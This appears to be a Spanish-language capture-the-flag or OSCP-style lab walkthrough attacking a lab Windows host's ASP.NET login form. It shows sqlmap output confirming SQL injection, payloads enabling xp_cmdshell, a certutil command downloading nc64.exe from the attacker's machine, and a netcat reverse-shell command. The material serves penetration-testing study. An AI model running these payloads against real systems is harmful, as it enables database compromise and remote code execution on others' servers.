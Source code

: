 # Walk: SQL Injections Attacks - Module Exercise - VM 7

## Fecha: 29/01/2025
## Host: Windows
## IP: 192.168.197.50

---

## Objetivo
Capstone Lab: Enumerate the Module Exercise - VM #4 and exploit the SQLi vulnerability to get the flag.

---
## Herramientas
1. sqlmap
2. burp
3. impacket-mssqlclient
---
## Procedimiento y comandos
1. Paso 1: Enumeramos el host
```
nmap -sV --open 192.168.197.50

Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-29 10:03 -03
Nmap scan report for 192.168.197.50
Host is up (0.19s latency).
Not shown: 962 closed tcp ports (reset), 33 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.83 seconds

```
Encontramos un Servidor Windows, y una pagina web en el puerto 80. Navegando en ella encontramos un formulario de login a testear:
Header:

```
POST /login.aspx HTTP/1.1
Host: 192.168.197.50
Content-Length: 443
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.197.50
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.197.50/login.aspx
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

__VIEWSTATE=%2FwEPDwUKMjA3MTgxMTM4N2Rkqwqg%2FoL5YGI9DrkSto9XLwBOyfqn9AahjRMC9ISiuB4%3D&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=%2FwEdAAS%2FuzRgA9bOZgZWuL94SJbKG8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb6wkDVQ%2BfPh1lhuA2bqiJXDjQ9KzSeE6SutA98NNH%2BM50%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox=duckman&ctl00%24ContentPlaceHolder1%24PasswordTextBox=test123&ctl00%24ContentPlaceHolder1%24LoginButton=Login

```
Parametros a explorar:
1. **ctl00%24ContentPlaceHolder1%24UsernameTextBox** / parametro vulnerable
2. **ctl00%24ContentPlaceHolder1%24PasswordTextBox**
Comando **sqlmap** para revisar los parametros:
```
 sqlmap -u "http://192.168.197.50/login.aspx" --method=POST \
--data="__VIEWSTATE=%2FwEPDwUKMjA3MTgxMTM4N2Rkqwqg%2FoL5YGI9DrkSto9XLwBOyfqn9AahjRMC9ISiuB4%3D&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=%2FwEdAAS%2FuzRgA9bOZgZWuL94SJbKG8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb6wkDVQ%2BfPh1lhuA2bqiJXDjQ9KzSeE6SutA98NNH%2BM50%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox=duckman&ctl00%24ContentPlaceHolder1%24PasswordTextBox=test123&ctl00%24ContentPlaceHolder1%24LoginButton=Login" \
-p "ctl00\$ContentPlaceHolder1\$UsernameTextBox,ctl00\$ContentPlaceHolder1\$PasswordTextBox" \
--headers="Cache-Control: max-age=0; Accept-Language: en-US,en;q=0.9; Origin: http://192.168.197.50; Content-Type: application/x-www-form-urlencoded; Upgrade-Insecure-Requests: 1; User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36; Referer: http://192.168.197.50/login.aspx; Accept-Encoding: gzip, deflate, br; Connection: keep-alive" \
--level=5 --risk=3 --batch

```
Encontramos del comando **sqlmap** lo siguiente:
```
POST parameter 'ctl00$ContentPlaceHolder1$UsernameTextBox' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 1154 HTTP(s) requests:
---
Parameter: ctl00$ContentPlaceHolder1$UsernameTextBox (POST)
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: __VIEWSTATE=/wEPDwUKMjA3MTgxMTM4Nw9kFgJmD2QWAgIDD2QWAgIBD2QWAgIHDw8WAh4EVGV4dAUmSW52YWxpZCBjcmVkZW50aWFscy4gUGxlYXNlIHRyeSBhZ2Fpbi5kZGQBPTdMqS5Ul3SMNtGtg/P/yY/9wvvPLFKzxx1KQ5PYkQ==&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=/wEdAAQA5q3sooTDd3D4bXwYKaPSG8sL8VA5/m7gZ949JdB2tEE+RwHRw9AX2/IZO4gVaaKVeG6rrLts0M7XT7lmdcb6SyIHr1g9J2ichD+sXBOsOsW4EtI0XDMY3uBxZiCrp80=&ctl00$ContentPlaceHolder1$UsernameTextBox=duckman';WAITFOR DELAY '0:0:5'--&ctl00$ContentPlaceHolder1$PasswordTextBox=test123&ctl00$ContentPlaceHolder1$LoginButton=Login

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: __VIEWSTATE=/wEPDwUKMjA3MTgxMTM4Nw9kFgJmD2QWAgIDD2QWAgIBD2QWAgIHDw8WAh4EVGV4dAUmSW52YWxpZCBjcmVkZW50aWFscy4gUGxlYXNlIHRyeSBhZ2Fpbi5kZGQBPTdMqS5Ul3SMNtGtg/P/yY/9wvvPLFKzxx1KQ5PYkQ==&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=/wEdAAQA5q3sooTDd3D4bXwYKaPSG8sL8VA5/m7gZ949JdB2tEE+RwHRw9AX2/IZO4gVaaKVeG6rrLts0M7XT7lmdcb6SyIHr1g9J2ichD+sXBOsOsW4EtI0XDMY3uBxZiCrp80=&ctl00$ContentPlaceHolder1$UsernameTextBox=duckman' WAITFOR DELAY '0:0:5'-- OMmo&ctl00$ContentPlaceHolder1$PasswordTextBox=test123&ctl00$ContentPlaceHolder1$LoginButton=Login
---
[10:01:53] [INFO] testing Microsoft SQL Server
[10:01:53] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[10:01:59] [INFO] confirming Microsoft SQL Server
[10:02:04] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 11 or 2022 or 2016 or 2019 or 10
web application technology: Microsoft IIS 10.0, ASP.NET 4.0.30319, ASP.NET
back-end DBMS: Microsoft SQL Server 2019
[10:02:04] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 

```
Encantramos un parametro vulnerabla a dos tipos de inyecciones, lo cual nos da dos vectores de ataque posibles:
 - Vector de Ataque Inicial (Stacked Queries) → Permite ejecutar múltiples consultas en una sola ejecución.
 - Alternativa en caso de restricciones: Time-Based Blind → Se basa en la demora de respuestas para inferir datos.

2. Paso 2:
Intentamos activar **xp_cmdshell** y ejecutar comandos Obtenemos un shell para activar xp_cmdshell con el intruder de burp.
Servimos con python un **nc64.exe** en al carpeta en la que descargamos el .exe
```
python -m http.server 80
```
Ejecutamos este payload en el intruder de burp
```
';EXEC sp_configure 'show advanced options', 1;--
';RECONFIGURE;--
';EXEC sp_configure "xp_cmdshell", 1;--
';RECONFIGURE;--
';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.185:80/nc64.exe c:/windows/temp/nc64.exe";--
```
3. Paso 3: Activamos el shell
```
nc -lnvp 4444
```
Ejecutamos con burp el siguiente payload:
```
'EXEC xp_cmdshell 'C:\Windows\temp\nc64.exe -e cmd.exe 192.168.45.185 4444'; --
```
4. Obtenemos el flag:
```
type C:\inetpub\wwwroot\flag.txt
```
---
## Troubleshooting
**Dejar de usar sqlmap, no esta permitida en el examen final OSCP**
---
## Herramientas Alternativas
- [ ] **Intruder:** Utilizar el Intruder de Burp para detectar campos vulnerables y ejecutar los payloads
- [ ] **Payloadsallthethings:** Utilizar en conjunto con el Intruder de Burp


